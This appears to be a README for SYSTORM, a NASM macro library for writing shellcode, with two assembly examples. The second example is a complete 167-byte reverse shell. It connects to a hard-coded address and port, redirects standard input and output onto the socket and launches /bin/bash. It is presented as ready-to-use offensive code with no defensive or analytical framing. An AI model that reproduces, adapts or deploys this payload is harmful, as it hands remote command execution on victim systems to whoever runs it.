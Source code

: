 # SYSTORM
NASM Standard Library for shellcode
---
https://scorchsecurity.wordpress.com/2016/07/31/nasm-and-friends/

##Usage:
To use functions defined within the .inc files, you have to include that file: `%include "syscall.inc"`
If using "thread.inc", "socket.inc", or "utils.inc", you have to include each function that you want to use.
For example: write `use.thread.create` to use thread.create.

A simple program is:
```
%include "syscall.inc"
; %include "thread.inc"
%include "socket.inc"
%include "utils.inc"

global _start
; _start goes first
_start:
    jmp main

; syscalls do not need to be included with 'use.*'
use.sock.socket
use.sock.connect

main:
	stackframe 4

	sock.socket AF_INET, SOCK_STREAM
	mov dword [ebp-4], eax
	sock.connect dword [ebp-4], AF_INET, 0x0101017F, 0xD204	; 127.0.0.1, 1234

	inline 'Hello!', 0xa			; places addr of 'Hello!\n' into eax
	
	sys.write dword [ebp-4], eax, 7	; write 'Hello!\n' to sockfd
	sys.close dword [ebp-4]			; close sockfd
	
	leave
	sys.exit 0
```
As is evident, systorm defines a number of macros that can be used to perform useful operations, like including inline data and setting up stackframes.

Additionally, all syscalls (prefixed with "sys.") are set up as macros, so they do not need to be included like other functions.

A simple reverse shell (167 bytes) is:
```
[BITS 32]

%include "syscall.inc"
%include "socket.inc"
%include "utils.inc"

global _start
_start:
    jmp main

use.sock.socket
use.sock.connect

main:
    stackframe 4

    sock.socket AF_INET, SOCK_STREAM
    mov dword [ebp-4], eax
    sock.connect dword [ebp-4], AF_INET, 0x0101017F, 0xD204	; 127.0.0.1, 1234s
    mov ecx, 2
.dup_loop:
    sys.dup2 [ebp-4], ecx
    dec ecx
    jns .dup_loop
exec:
    inline '/bin/bash', 0
    sys.execve eax, 0, 0
    sys.exit 0
```
